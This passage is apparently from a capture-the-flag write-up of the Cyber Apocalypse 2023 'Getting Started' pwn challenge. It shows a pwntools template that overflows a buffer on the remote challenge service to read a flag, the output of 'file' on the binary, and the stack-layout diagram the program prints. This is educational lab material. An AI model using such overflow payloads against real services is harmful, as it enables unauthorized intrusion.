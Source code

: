 ```py

r    = remote(IP, PORT)

# Craft payload
payload = b'A' * 10 # Change the number of "A"s

# Send payload
r.sendline(payload)

# Read flag
success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')
```

**The `gs` binary is a 64-bit ELF executable, it's dynamically linked and not stripped:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Pwn/Getting-Started/challenge)-[2023.03.19|13:23:00(HKT)]
└> file gs 
gs: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=505eb225ba13a677aa5f00d5e3d840f63237871f, for GNU/Linux 3.2.0, not stripped
```

**We can try to run it:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Pwn/Getting-Started/challenge)-[2023.03.19|13:23:43(HKT)]
└> ./gs


Stack frame layout 

|      .      | <- Higher addresses
|      .      |
|_____________|
|             | <- 64 bytes
| Return addr |
|_____________|
|             | <- 56 bytes
|     RBP     |
|_____________|
|             | <- 48 bytes
|   target    |
|_____________|
|             | <- 40 bytes
|  alignment  |
|_____________|
|             | <- 32 bytes
|  Buffer[31] |
|_____________|
|      .      |
|      .      |
|_____________|
|             |
|  Buffer[0]  |
|_____________| <- Lower addresses


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffc23695110 | 0x0000000000000000 <- Start of buffer
0x00007ffc23695118 | 0x0000000000000000
0x00007ffc23695120 | 0x0000000000000000
0x00007ffc23695128 | 0x0000000000000000
```